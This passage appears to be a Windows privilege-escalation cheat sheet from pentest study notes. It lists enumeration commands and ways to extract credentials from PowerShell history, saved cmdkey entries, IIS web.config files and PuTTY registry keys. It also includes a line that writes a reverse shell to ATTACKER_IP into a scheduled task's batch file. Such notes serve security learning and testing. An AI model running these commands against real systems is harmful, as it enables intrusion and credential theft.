 File permissions: `icacls [file]`
- `Icacls [file] /grant [user]:F`
-  or `Everyone:F` for everyone
- `F` is full
- `AD` is create subdirectories
- `WD` is create files

User Info
- `net user`
- User Passwords:
	- Stored in `/system32/config/SAM`
	- Change user password: `net user [user] [new_pass]`

Powershell history
- `type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`
- View History (cmd prompt version) - `type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

Saved Credentials
- `Cmdkey /list`
	- Use these with: `runas /savecred /user:[admin] [executable]`
	- You will need the password if there is one

Internet Information Service (web server)
- Stored in web.config, possible locations:
	- `C:\inetpub\wwwroot\web.config`
	- `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config`
	- Find database connections for ISS: `type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString`

PuTTY
- Retrieve stored proxy credentials
	- `reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s`

Scheduled Tasks
- `Schtasks`
- list tasks with `schtasks /query /fo LIST`
- To see more details about one of them: `schtasks /query /tn [task name] /fo list /v`
- The taskname is the executable
- The "task to run" parameter indicates the path to the file that runs the executable as a task (.bat file)
- If we have write permissions for the .bat file:
	- If you can modify: `echo c:[executable_path] -e cmd.exe ATTACKER_IP 4444 > ["task to run" file path]` (creates a reverse shell)
- `tasklist /SVC`

Local Network Info
- `arp -a` arp cache
- `route print`
- `ipconfig /all`
- `netstat -ano`

## Unpatched Software
